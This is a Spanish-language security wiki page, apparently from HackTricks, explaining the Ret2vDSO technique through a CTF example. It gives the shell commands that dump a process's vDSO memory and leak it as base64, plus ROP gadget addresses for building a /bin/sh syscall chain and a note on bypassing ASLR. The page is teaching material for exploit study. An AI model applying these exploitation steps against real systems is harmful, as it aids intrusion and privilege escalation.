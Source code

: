 # Ret2vDSO

{{#include ../../banners/hacktricks-training.md}}

## Información Básica

Puede haber **gadgets en la región vDSO**, que se utiliza para cambiar del modo usuario al modo kernel. En este tipo de desafíos, generalmente se proporciona una imagen del kernel para volcar la región vDSO.

Siguiendo el ejemplo de [https://7rocky.github.io/en/ctf/other/htb-cyber-apocalypse/maze-of-mist/](https://7rocky.github.io/en/ctf/other/htb-cyber-apocalypse/maze-of-mist/) es posible ver cómo se pudo volcar la sección vdso y moverla al host con:
```bash
# Find addresses
cat /proc/76/maps
08048000-08049000 r--p 00000000 00:02 317                                /target
08049000-0804a000 r-xp 00001000 00:02 317                                /target
0804a000-0804b000 rw-p 00002000 00:02 317                                /target
f7ff8000-f7ffc000 r--p 00000000 00:00 0                                  [vvar]
f7ffc000-f7ffe000 r-xp 00000000 00:00 0                                  [vdso]
fffdd000-ffffe000 rw-p 00000000 00:00 0                                  [stack]

# Dump it
dd if=/proc/76/mem of=vdso bs=1 skip=$((0xf7ffc000)) count=$((0x2000))
8192+0 records in
8192+0 records out
8192 bytes (8.0KB) copied, 0.901154 seconds, 8.9KB/s

# Compress and leak it
gzip vdso
base64 vdso.gz

# Decompress and check of gadgets
echo '<base64-payload>' | base64 -d | gzip -d - > vdso
file vdso
ROPgadget --binary vdso | grep 'int 0x80'
```
Gadgets ROP encontrados:
```python
vdso_addr = 0xf7ffc000

int_0x80_xor_eax_eax_ret_addr = 0x8049010
bin_sh_addr = 0x804a800

# 0x0000057a : pop edx ; pop ecx ; ret
pop_edx_pop_ecx_ret_addr = vdso_addr + 0x57a

# 0x00000cca : mov dword ptr [edx], ecx ; add esp, 0x34 ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
mov_dword_ptr_edx_ecx_ret_addr = vdso_addr + 0xcca

# 0x00000ccb : or al, byte ptr [ebx + 0x5e5b34c4] ; pop edi ; pop ebp ; ret
or_al_byte_ptr_ebx_pop_edi_pop_ebp_ret_addr = vdso_addr + 0xccb

# 0x0000015cd : pop ebx ; pop esi ; pop ebp ; ret
pop_ebx_pop_esi_pop_ebp_ret = vdso_addr + 0x15cd
```
> [!CAUTION]
> Nota, por lo tanto, cómo podría ser posible **eludir ASLR abusando del vdso** si el kernel está compilado con CONFIG_COMPAT_VDSO ya que la dirección del vdso no será aleatorizada: [https://vigilance.fr/vulnerability/Linux-kernel-bypassing-ASLR-via-VDSO-11639](https://vigilance.fr/vulnerability/Linux-kernel-bypassing-ASLR-via-VDSO-11639)

### ARM64

Después de volcar y verificar la sección vdso de un binario en kali 2023.2 arm64, no pude encontrar allí ningún gadget interesante (sin forma de controlar registros a partir de valores en la pila o controlar x30 para un ret) **excepto una forma de llamar a un SROP**. Consulta más información en el ejemplo de la página:

{{#ref}}
srop-sigreturn-oriented-programming/srop-arm64.md
{{#endref}}

{{#include ../../banners/hacktricks-training.md}}
